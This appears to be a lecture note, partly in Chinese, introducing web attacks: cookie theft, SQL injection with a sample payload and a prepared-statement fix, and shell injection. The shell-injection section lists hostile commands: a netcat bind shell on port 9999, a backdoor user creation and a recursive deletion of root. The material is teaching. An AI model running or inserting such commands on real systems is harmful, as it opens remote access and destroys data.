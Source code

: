```yaml
---
description: 简单介绍web攻击
---
```


# Week 7 - Web Attacks Part 1

## Intro

我们会介绍这些攻击和预防：

* Authentication Failure
* SQL Injuction
* Cross-site scripting (XSS)
* Cross-site request forgery
* Code injection

## Authentication - Cookie

一般有三种身份验证方案：

* IP Based：不可行，因为IPV4的NAT和DHCP
* Certificate-based: 不可行，谁去签？
* Cookie based：最常用

### Cookies

用户第一次访问服务器的时候，服务器会在response中写Set-Cookie: xxxx，这样你下一次的请求体中就会带上Cookie: xxxxxx

由于Cookie中包含了身份认证信息，窃听者可以窃取你的Cookie，伪装成你。

解决方法：用TLS，设置cookie的session time out。

## SQL Injucdtion

```sql
Secret Item:
’ OR ’1’=’1’ ) --

SELECT * FROM items WHERE (item=’’ OR ’1’=’1’) -- ’) 
```

### 解决方法: use "prepared" statements

```php
// prepare and bind 
$stmt = $conn->prepare ("INSERT INTO People (firstname, lastname) VALUES (?, ?)"); 
$stmt->bind_param("ss", $firstname, $lastname); // set parameters and execute 
$firstname = "John"; 
$lastname = "Doe"; 
$stmt->execute();
```

## Shell Injection

不仅仅是SQL，Shell也可以被注入。

```bash
nc -l -p 9999 -e /bin/bash #在9999端口上启动一个bash
useradd tpc -p 12345 # add user tpc:12345
rm -f -r /
```
